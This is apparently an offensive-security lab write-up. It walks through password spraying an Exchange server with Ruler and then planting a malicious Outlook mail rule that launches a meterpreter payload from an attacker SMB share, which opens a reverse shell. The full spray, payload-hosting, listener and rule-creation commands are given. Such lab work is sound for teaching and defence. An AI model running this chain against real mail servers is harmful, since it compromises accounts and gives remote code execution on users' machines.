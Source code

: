 # Password Spraying Outlook Web Access: Remote Shell

## Context

This lab looks at an attacking technique called password spraying as well as abusing Outlook Web Application by exploiting mail rules to get a remote shell using a tool called `Ruler`.

## Defininitions

**Password spraying** is a form of password brute-forcing attack. In password spraying, an attacker (with the help of a tool) cycles through a list of possible usernames (found using OSINT techniques against a target company or other means) with a couple of most commonly used weak passwords.&#x20;

In comparison, a traditional brute-force works by selecting a username from the list and trying all the passwords in the wordlist against that username. Once all passwords are exhausted for that user name, another username is chosen from the list and the process repeats.

Password spraying could be illustrated with the following table:

| User | Password      |
| ---- | ------------- |
| john | Winter2018    |
| ben  | Winter2018    |
| ...  | Winter2018    |
| john | December2018! |
| ben  | December2018! |
| ...  | December2018! |

Standard password brute-forcing could be illustrated with the following table:

| User | Password    |
| ---- | ----------- |
| john | Winter2018  |
| john | Winter2018! |
| john | Password1   |
| ben  | Winter2018  |
| ben  | Winter2018! |
| ben  | Password1   |

## Password Spraying

Let's try doing a password spray against an Exchange 2016 server in a `offense.local` domain:

{% code title="attacker@kali" %}
```csharp
ruler -k --domain offense.local brute --users users --passwords passwords --verbose
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2018-12-23 15-09-03.png>)

![](<../../.gitbook/assets/Peek 2018-12-23 15-07.gif>)

The above shows that password spray was successful against the user `spotless` who used a weak password `123456`.

Note, that if you are attempting to replicate this technique in your own labs, you may need to update your `/etc/hosts` to point to your Exchange server:

![](<../../.gitbook/assets/Screenshot from 2018-12-23 15-08-18.png>)

## Getting a Shell via Malicious Email Rule

### Process Overview

If the password spray against an Exchange server was successful and you have obtained valid credentials, you can now leverage `Ruler` to create a malicious email rule to that will gain you remote code execution on the host that checks that compromised mailbox.

A high level overwiew of how the spraying and remote code execution works:

* assume you have obtained working credentials during the spray for the user `spotless@offense.local`
* with the help of `Ruler`, a malicious mail rule is created for the compromised account which in our case is `spotless@offense.local`. The rule created will conform to the format along the lines of:\
  `if emailSubject contains `**`someTriggerWord`**_`start`_**`pathToSomeProgram`**
* A new email with subject containing `someTriggerWord` is sent to the `spotless@offense.local`
* User `spotless` logs on to his/her workstation and launches Outlook client to check for new email
* Malicious email comes in and the malicious mail rule is triggered, which in turn starts the program specified in `pathToSomeProgram` which is pointing to a malicious payload giving a reverse shell to the attacker

### Execution

Let's validate the compromised credentials are working by checking if there are any email rules created already:

{% code title="attacker@kali" %}
```csharp
ruler -k --verbose --email spotless@offense.local -u spotless -p 123456  display
```
{% endcode %}

The below suggests the credentials are working and that no mail rules are set for this account yet:

![](<../../.gitbook/assets/Screenshot from 2018-12-23 17-15-36.png>)

To carry out the attack further, I've generated a reverse meterpreter payload and saved it as a windows executable in `/root/tools/evilm64.exe`&#x20;

We now need to create an SMB share that is accessible to our victim host and point it to the location where our payload evilm64.exe is located:

{% code title="attacker@kali" %}
```csharp
smbserver.py tools /root/tools/
```
{% endcode %}

Next, we setup a metasploit listener to catch the incoming reverse shell:

{% code title="attacker@kali" %}
```csharp
use exploit/multi/handler 
set lhost 10.0.0.5
set lport 443
exploit
```
{% endcode %}

Finally, we fire up the ruler and create the malicious email rule:

{% code title="attacker@kali" %}
```csharp
ruler -k --verbose --email spotless@offense.local --username spotless -p 123456  add --location '\\10.0.0.5\tools\\evilm64.exe' --trigger "popashell" --name maliciousrule --send --subject popashell
```
{% endcode %}

Below shows the entire attack and all of the steps mentioned above in action - note how the compromised mailbox does not even get to see the malicious email coming in:

![](<../../.gitbook/assets/Peek 2018-12-23 18-13.gif>)

Below shows the actual malicious rule that got created as part of the attack - note the `subject` and the `start` properties - we specified them in the ruler command:

![](<../../.gitbook/assets/Screenshot from 2018-12-23 18-17-10.png>)

If you want to delete the malicious email rule, do this:

{% code title="attacker@kali" %}
```csharp
ruler -k --verbose --email spotless@offense.local --username spotless -p 123456 delete --name maliciousrule
```
{% endcode %}

## Detection & Mitigation

{% embed url="https://www.microsoft.com/en-us/microsoft-365/blog/2018/03/05/azure-ad-and-adfs-best-practices-defending-against-password-spray-attacks/" %}

## References

{% embed url="https://github.com/sensepost/ruler/wiki" %}

{% embed url="https://silentbreaksecurity.com/malicious-outlook-rules/" %}

{% embed url="https://labs.mwrinfosecurity.com/blog/malicous-outlook-rules/" %}

{% embed url="https://www.blackhillsinfosec.com/introducing-mailsniper-a-tool-for-searching-every-users-email-for-sensitive-data/" %}

